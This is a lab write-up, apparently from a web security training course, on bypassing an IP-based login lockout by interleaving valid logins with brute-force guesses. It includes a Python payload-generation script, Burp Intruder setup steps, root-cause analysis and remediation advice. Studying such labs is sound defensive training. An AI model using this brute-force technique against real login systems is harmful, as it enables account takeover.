

# Broken Brute-Force Protection – IP Block Bypass

## Lab: Broken Brute-Force Protection (IP Block)

### Objective
Brute-force the password for user `carlos` by bypassing the IP block mechanism, then log in to their account.

### Credentials
| Username | Password |
|----------|----------|
| wiener | peter |
| carlos | (unknown) |

### Vulnerability Description
The server blocks an IP address after 3 failed login attempts within a short time. However, a successful login resets the failed attempt counter. This allows an attacker to interleave valid login requests (wiener:peter) between brute-force attempts for carlos, preventing the IP block.

### Exploitation Strategy
1. Send 2 failed attempts for `carlos` → counter = 2
2. Send 1 successful login for `wiener:peter` → counter resets to 0
3. Repeat until carlos's password is found

### Python Script to Generate Payloads

```python
# Generate username sequence: wiener, carlos, carlos, wiener, carlos, carlos, ...
for i in range(150):
    if i % 3:
        print("carlos")
    else:
        print("wiener")

print("#" * 50)

# Generate password sequence: peter, password1, password2, peter, password3, password4, ...
with open('passwords.txt', 'r') as f:
    passwords = [line.strip() for line in f]

i = 0
for pwd in passwords:
    if i % 3:
        print(pwd)
    else:
        print('peter')
        print(pwd)
        i += 1
    i += 1
```

### Burp Intruder Setup

1. **Capture** a `POST /login` request
2. Send to Intruder → **Pitchfork** attack type
3. Set payload positions on `username` and `password`
4. **Payload 1** (usernames): alternating list starting with `wiener`
5. **Payload 2** (passwords): list where `peter` appears every 3rd position
6. **Resource pool**: Max concurrent requests = 1 (sequential)

### Attack Execution

- Run the attack
- Filter results: hide `200 OK`, look for `302 Redirect`
- The only `302` for `carlos` reveals the correct password

### Result

Found password → log in as `carlos` → access account page → lab solved

### Root Cause

| Flaw | Description |
|------|-------------|
| Weak lockout | Counter resets on any successful login |
| No per-user tracking | IP-based counter affects all users |

### Remediation

- Track failed attempts per username, not per IP
- Do not reset counter on successful login from a different user
- Use CAPTCHA or progressive delays

---

## Lab Solved ✓


